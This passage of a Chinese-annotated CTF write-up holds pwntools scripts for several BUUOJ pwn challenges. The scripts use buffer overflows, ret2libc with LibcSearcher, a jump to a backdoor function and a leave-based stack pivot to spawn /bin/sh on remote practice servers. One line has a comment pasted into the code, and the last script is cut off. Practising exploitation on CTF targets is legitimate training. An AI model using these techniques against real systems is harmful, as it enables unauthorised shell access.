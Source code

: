 这里需要注意一下payload64位先往寄存器中传参顺序要注意！！！ 
r.recvuntil("Pull up your sword and tell me u story!")
r.sendline(payload1)
r.recv()
puts_addr=u64(r.recv(6).ljust(8,b'\x00'))
libc=LibcSearcher('puts',puts_addr)
libc_base = puts_addr - libc.dump('puts')   
system = libc_base+libc.dump('system')   
bins = libc_base+libc.dump('str_bin_sh')
payload2=b'A'*0x28+p64(pop_ret)+p64(bins)+p64(system)
r.recvuntil("Pull up your sword and tell me u story!")
r.sendline(payload2)
r.interactive()

## bjdctf_2020_babystack2

from pwn import*
elf=ELF('pwn7')
r=remote('node4.buuoj.cn',28553)
back_addr=elf.symbols['backdoor']
r.recv()
r.sendline(b'-1')
payload=b'a'*(0x10+8)+p64(back_addr)
r.sendline(payload)
r.interactive()

## ciscn_2019_es_2

from pwn import *
context(os="linux",arch="i386",log_level="debug")
elf=ELF('pwn8')
p=remote('node4.buuoj.cn',29794)
sys_addr=0x08048400
leave_addr=0x8048562
payload1=b'a'*0x27
p.sendlineafter('name?\n',payload1)
p.recvuntil('\n')
ebp=u32(p.recv(4))
payload2=b'a'*4+p32(sys_addr)+p32(0)+p32(ebp-0x28)+b'/bin/sh'
payload2=payload2.ljust(0x28,b'\0')
payload2+=p32(ebp-0x38)看当时的ebp+p32(leave_addr)
p.sendline(payload2)
p.interactive()

## pwn2_sctf_2016

整数溢出问题
from pwn import*
from LibcSearcher import*
p=remote('node4.buuoj.cn',29476)
elf=ELF('./pwn9')
printf_plt=elf.plt['printf']
printf_got=elf.got['printf']
vuln=0x0804852f
main=0x080485b8
p.recvuntil('read?')
p.sendline(str(-1))
p.recvuntil('data!\n')
payload=b'a'*0x30+p32(printf_plt)+p32(vuln)+p32(printf_got)
p.sendline(payload)
p.recvuntil('\n')
printf_add=u32(p.recv(4))
print(hex(printf_add))